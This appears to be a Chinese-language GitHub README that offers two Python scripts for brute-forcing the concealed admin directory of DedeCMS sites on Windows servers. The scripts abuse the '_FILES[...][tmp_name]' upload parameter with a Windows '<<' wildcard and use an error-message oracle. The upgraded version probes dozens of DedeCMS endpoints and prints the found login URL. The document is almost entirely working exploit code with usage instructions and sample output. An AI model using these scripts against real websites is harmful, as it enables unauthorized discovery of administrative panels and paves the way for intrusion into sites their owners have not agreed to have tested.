

## dede_burp_admin_path dedecms后台路径爆破脚本（前提：网站环境为Windows环境）

#### 说明
> 网上最早得脚本应该是由红日安全团队发布，但是他们得脚本只针对网站根目录下的`tags.php` 文件，包括不全面，如果删掉了这个文件就GG了，现在这个版本是包括了所有可以爆破出后台路径的文件，具体的可以看代码。

```python
#!/usr/bin/env python
'''/*
    * author = Mochazz
    * team   = 红日安全团队
    * env    = pyton3
    *
    */
'''
import requests
import itertools
characters = "abcdefghijklmnopqrstuvwxyz0123456789_!#"
back_dir = ""
flag = 0
url = "http://192.168.1.9/tags.php"
data = {
    "_FILES[mochazz][tmp_name]" : "./{p}<</images/adminico.gif",
    "_FILES[mochazz][name]" : 0,
    "_FILES[mochazz][size]" : 0,
    "_FILES[mochazz][type]" : "image/gif"
}

for num in range(1,7):
    if flag:
        break
    for pre in itertools.permutations(characters,num):
        pre = ''.join(list(pre))
        data["_FILES[mochazz][tmp_name]"] = data["_FILES[mochazz][tmp_name]"].format(p=pre)
        print("testing",pre)
        r = requests.post(url,data=data)
        if "Upload filetype not allow !" not in r.text and r.status_code == 200:
            flag = 1
            back_dir = pre
            data["_FILES[mochazz][tmp_name]"] = "./{p}<</images/adminico.gif"
            break
        else:
            data["_FILES[mochazz][tmp_name]"] = "./{p}<</images/adminico.gif"
print("[+] 前缀为：",back_dir)
flag = 0
for i in range(30):
    if flag:
        break
    for ch in characters:
        if ch == characters[-1]:
            flag = 1
            break
        data["_FILES[mochazz][tmp_name]"] = data["_FILES[mochazz][tmp_name]"].format(p=back_dir+ch)
        r = requests.post(url, data=data)
        if "Upload filetype not allow !" not in r.text and r.status_code == 200:
            back_dir += ch
            print("[+] ",back_dir)
            data["_FILES[mochazz][tmp_name]"] = "./{p}<</images/adminico.gif"
            break
        else:
            data["_FILES[mochazz][tmp_name]"] = "./{p}<</images/adminico.gif"

print("后台地址为：",back_dir)
```

升级版本代码如下:
```python
#!/usr/bin/env python3
# coding:utf-8
import requests
import itertools
from random import choice
import sys

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_!#@-"
back_dir = ""

show_message = {}
check_message = {}
valid_file = []
data = {
    "_FILES[tools][tmp_name]": "./../{p}<</images/adminico.gif",
    "_FILES[tools][name]": 0,
    "_FILES[tools][size]": 0,
    "_FILES[tools][type]": "image/gif"
}

headers = {
    "User-Agent":
    "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) Gecko/20100101 Firefox/40.0",
    "Accept":
    "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
    "Content-Type": "application/x-www-form-urlencoded",
    "Connection": "Close"
}


class Bute_Login:
    global headers

    def __init__(self, target):
        self.target = target

    def Check(self):
        global data, check_message, valid_file

        File_Chek_List = [
            '/tags.php', '/include/vdimgck.php', '/m/list.php', '/m/view.php',
            '/member/config.php', '/plus/advancedsearch.php',
            '/plus/arcmulti.php', '/plus/bookfeedback.php',
            '/plus/bookfeedback_js.php', '/plus/car.php',
            '/plus/carbuyaction.php', '/plus/comments_frame.php',
            '/plus/count.php', '/plus/digg_ajax.php', '/plus/digg_frame.php',
            '/plus/digg_frame.php', '/plus/disdls.php', '/plus/diy.php',
            '/plus/download.php', '/plus/erraddsave.php', '/plus/feedback.php',
            '/plus/feedback_ajax.php', '/plus/flink.php', '/plus/flink.php',
            '/plus/flink_add.php', '/plus/freelist.php',
            '/plus/heightsearch.php', '/plus/list.php', '/plus/mytag_js.php',
            '/plus/posttocar.php', '/plus/qrcode.php', '/plus/recommend.php',
            '/plus/rss.php', '/plus/search.php', '/plus/showphoto.php',
            '/plus/stow.php', '/plus/view.php', '/plus/vote.php',
            '/special/index.php'
        ]
        for filename in File_Chek_List:
            try:
                res = requests.post(self.target + filename, data=data)
                # print (self.target+filename+"--->"+res.text)
                if "Upload filetype not allow !" in res.text and res.status_code == 200:
                    valid_file.append(filename)
            except Exception:
                pass
        # print (valid_file)
        # print (valid_file)
        if len(valid_file):
            if "/tags.php" in valid_file:
                for i in valid_file:
                    if i == "/tags.php":
                        return i
            else:
                file_name = choice(valid_file)
                return file_name
        else:
            return False

    def Bute(self):
        f_name = self.Check()
        print(f_name)
        if f_name is not False:
            if f_name == "/tags.php":
                prefix = "./"
            else:
                prefix = "./../"
            flag = 0
            global characters, back_dir, data, check_message
            for num in range(1, 7):
                if flag:
                    break
                for pre in itertools.permutations(characters, num):
                    pre = ''.join(list(pre))
                    data["_FILES[tools][tmp_name]"] = data[
                        "_FILES[tools][tmp_name]"].format(p=pre)
                    print(("testing", pre))
                    r = requests.post(self.target + f_name, data=data)
                    if "Upload filetype not allow !" not in r.text and r.status_code == 200:
                        flag = 1
                        back_dir = pre
                        data[
                            "_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif" % prefix
                        break
                    else:
                        data[
                            "_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif" % prefix
            print("[+] 前缀为：", back_dir)
            flag = 0
            for i in range(30):
                if flag:
                    break
                for ch in characters:
                    if ch == characters[-1]:
                        flag = 1
                        break
                    data["_FILES[tools][tmp_name]"] = data[
                        "_FILES[tools][tmp_name]"].format(p=back_dir + ch)
                    r = requests.post(self.target + f_name, data=data)
                    if "Upload filetype not allow !" not in r.text and r.status_code == 200:
                        back_dir += ch
                        print("[+] ", back_dir)
                        data[
                            "_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif" % prefix
                        break
                    else:
                        data[
                            "_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif" % prefix
            show_message['Login_url'] = self.target + "/%s" % back_dir

            print(show_message)
            return show_message
        else:
            check_message['Enumerate'] = False
            print(check_message)
            return check_message


def main(url):
    N = Bute_Login(url)
    N.Bute()


'''
usage:        python dede_login.py -u [url]http://dedecms.test/[/url]
output:
                ('testing', 'a')
                ('testing', 'b')
                ('testing', 'c')
                {'Login_url': 'http://dedecms.test/dede'}
'''

if __name__ == '__main__':
    if sys.argv[1] == "-u":
        main(sys.argv[2])

```

## 使用效果如下


### 相关文章
https://xz.aliyun.com/t/2064